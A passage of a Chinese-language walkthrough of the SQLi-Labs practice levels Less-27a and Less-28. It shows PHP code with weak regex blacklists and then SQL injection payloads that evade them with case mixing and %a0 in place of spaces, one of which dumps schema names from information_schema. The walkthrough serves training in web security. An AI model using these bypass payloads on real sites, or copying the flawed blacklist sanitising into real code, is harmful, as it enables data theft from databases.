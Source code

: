 ```
$id= preg_replace('/Union/s',"", $id);        //Strip out Union
$id= preg_replace('/Select/s',"", $id);        //Strip out Select
return $id;
}
$id=$_GET['id'];
$id= blacklist($id);
$id = '"' .$id. '"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
//print_r(mysql_error());
```

与27关的区别在于对于id的处理，这里用的是 " ，同时mysql的错误不会在前端页面显示。

我们根据27关直接给出一个示例payload：

?id=100"unIOn%a0seLect%a01,database(),"3

![image-20201111145146772](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111145146772.png)



## 0X1FLess-28

```
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);                //strip out /*
$id= preg_replace('/[--]/',"", $id);                //Strip out --.
$id= preg_replace('/[#]/',"", $id);                    //Strip out #.
$id= preg_replace('/[ +]/',"", $id);                //Strip out spaces.
//$id= preg_replace('/select/m',"", $id);                    //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);                //Strip out spaces.
$id= preg_replace('/union\s+select/i',"", $id);        //Strip out UNION & SELECT.
return $id;
}

$id=$_GET['id'];
$id= blacklist($id);
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
//print_r(mysql_error());
```

正则表达式'/union\s+select/i'中，\s表示空格，+表示匹配一次或多次，/i表示不区分大小写，所以整体表示匹配 union加一个或多个空格加select，其中union和select不区分大小写。

所以我们可以将union 和 select中间的空格使用%a替换，

?id=100')union%a0select%a01,database(),3||('1

![image-20201111150116651](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111150116651.png)

?id=100')union%a0select%a01,(select%a0group_concat(schema_name)%a0from%a0information_schema.schemata),3||('1

![image-20201111150302450](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111150302450.png)
